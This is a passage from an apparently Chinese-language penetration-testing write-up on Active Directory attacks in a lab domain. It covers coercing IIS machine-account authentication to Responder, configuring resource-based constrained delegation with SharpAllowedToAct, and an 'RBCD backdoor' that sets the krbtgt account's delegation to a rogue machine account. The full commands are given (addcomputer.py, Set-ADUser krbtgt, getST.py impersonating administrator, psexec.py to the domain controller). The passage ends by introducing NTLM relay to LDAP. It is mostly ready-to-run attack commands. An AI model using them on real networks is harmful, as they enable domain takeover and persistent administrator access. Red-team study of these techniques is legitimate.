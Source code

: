![图片](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011607073.jpeg)

以 WIN2008-WEB 的 IIS 服务为例

![image-20230801161406932](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011614979.png)

这里先执行 `dir \\192.168.30.40\c$`, 通过 Responder 可以发现 IIS 出网时使用的是本机的机器账户

![image-20230801161606081](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011616127.png)

利用 SharpAllowedToAct

[https://github.com/pkb1s/SharpAllowedToAct](https://github.com/pkb1s/SharpAllowedToAct)

思路跟上文差不多, 都是先利用当前用户的身份创建机器账户并配置委派属性

```shell
C:\inetpub\wwwroot\SharpAllowedToAct.exe -m TEST -p 123456 -t WIN2008-WEB
```

![image-20230801162010847](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011620878.png)

## RBCD 后门

利用 RBCD, 设置 krbtgt 服务的委派属性为指定后门账户, 从而打造变种黄金票据

首先添加机器账户

```shell
addcomputer.py hack-my.com/Alice:'Alice123!' -computer-name TEST\$ -computer-pass 123456 -dc-host DC.hack-my.com -dc-ip 192.168.30.10 
```

在域控上执行如下命令, 配置 krbtgt 的委派属性

```powershell
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount test$
```

![image-20230801162355498](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011623536.png)

最后申请 ST

```shell
getST.py hack-my.com/test\$:123456 -spn krbtgt -impersonate administrator -dc-ip 192.168.30.10

export KRB5CCNAME=administrator.ccache
psexec.py -k -no-pass administrator@DC.hack-my.com -dc-ip 192.168.30.10
```

![image-20230801162610215](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308011626255.png)

可以连接到域内的任何一台机器

## NTLM Relay to LDAP

NTLM Relay 经常会结合 RBCD 一起利用, 后者作为中继至 LDAP 的一种利用手段, 当然也还有其它的利用方式, 比如配合 Exchange 机器账户写 DCSync 权限, 利用 Shadow Credentials 等等

